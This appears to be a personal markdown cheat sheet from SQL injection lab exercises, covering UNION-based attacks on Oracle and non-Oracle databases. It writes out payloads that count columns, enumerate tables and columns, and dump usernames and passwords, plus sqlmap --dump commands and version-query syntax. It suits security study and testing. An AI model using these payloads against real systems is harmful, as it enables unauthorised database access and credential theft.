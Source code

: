 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__




## 5. non-Oracle databases

- __'+UNION+SELECT+NULL,NULL--__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`__

- __Extracting the column names from a table(users_kwechv)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_kwechv'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(users_kwechv)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+users_kwechv--`__



## 6. Oracle databases

- __`'+UNION+SELECT+NULL,NULL--`__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'+FROM+dual--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`__

- __Extracting the column names from a table(USERS_RDINGX)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_RDINGX'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(USERS_RDINGX)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+USERS_RDINGX--`__



# SQLmap

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2`__
  - __if you dont the database name just run the above commands__

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2 --dbms=postgreSQL --dump --threads=5`__


#  Types of database

- __1. Oracle__
- __2. Microsft__
- __3. PostgreSQL__
- __4. MySQL__


### Database comments
- __1. Oracle      | `--comment`__
- __2. Microsft    | `--comment or /*comment*/`__
- __3. PostgreSQL  | `--comment or /*comment*/`__
- __4. MySQL       | `#comment or -- comment or /*comment*/`__


### Database version
- __1. Oracle      | `SELECT banner FROM v$version or SELECT version FROM v$instance`__
- __2. Microsft    | `SELECT @@version`__
- __3. PostgreSQL  | `SELECT version()`__
- __4. MySQL       | `SELECT @@version`__













